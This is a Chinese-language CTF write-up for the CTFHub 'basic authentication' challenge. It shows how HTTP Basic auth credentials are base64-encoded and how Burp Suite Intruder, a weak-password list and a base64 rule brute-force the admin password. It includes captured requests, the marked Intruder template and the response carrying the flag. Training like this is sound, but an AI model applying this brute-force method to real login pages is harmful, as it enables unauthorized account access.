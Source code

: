 # CTFhub-基础认证

## 题目内容

```
CTFHub 基础认证
Here is your flag: click
```

同时给出了一份弱口令字典

## WriteUp

这道题是爆破无疑，使用Burpsuite抓包

我们做一次登录抓包，内容如下

```
GET /flag.html HTTP/1.1
Host: challenge-323e54997d1e474a.sandbox.ctfhub.com:10800
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-323e54997d1e474a.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b672c96fe74f-01ab585fa1d62c-3d740e5b-1fa400-17b672c96ff412
Connection: close
```

在repeater给出的返回结果中，得到

```
WWW-Authenticate: Basic realm="Do u know admin ?"
```

所以用户名可以确定为admin

然后我们尝试爆破密码，分析以上数据包我们传入的帐号密码变成了YWRtaW46YWRtaW4=

经过Base64解密可以得到admin:admin，也就是username:password这个格式

现在有两个思路

1. 使用burpsuite配置字典爆破
2. 编写脚本，将字典base64对应的字典生成出来，再使用Burpsuite爆破

方便起见，我们使用第一个

我们先将数据包send to intruder,然后配置字典域，使用$$括起来需要爆破的地方

```
GET /flag.html HTTP/1.1
Host: challenge-323e54997d1e474a.sandbox.ctfhub.com:10800
Cache-Control: max-age=0
Authorization: Basic §YWRtaW46YWRtaW4=§
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://challenge-323e54997d1e474a.sandbox.ctfhub.com:10800/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17b672c96fe74f-01ab585fa1d62c-3d740e5b-1fa400-17b672c96ff412
Connection: close
```

在payload-options导入字典

![image](/home/adian/note/Study_Note/网络安全/CTF/pic/1.png)

然后在processing 处添加规则

![image-20210821152400482](/home/adian/note/Study_Note/网络安全/CTF/pic/2.png)

然后再添加一个base64_encode的规则

添加完成后开始爆破密码

![image-20210821152708136](/home/adian/note/Study_Note/网络安全/CTF/pic/3.png)

得到密码，我们回到repeater进行发包

得到flag

```
HTTP/1.1 200 OK
Server: openresty/1.19.3.2
Date: Sat, 21 Aug 2021 07:28:00 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Last-Modified: Sat, 21 Aug 2021 07:08:40 GMT
ETag: W/"6120a678-21"
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With
Access-Control-Allow-Methods: *
Content-Length: 33

ctfhub{aedef988b686febd6ff01670}
```

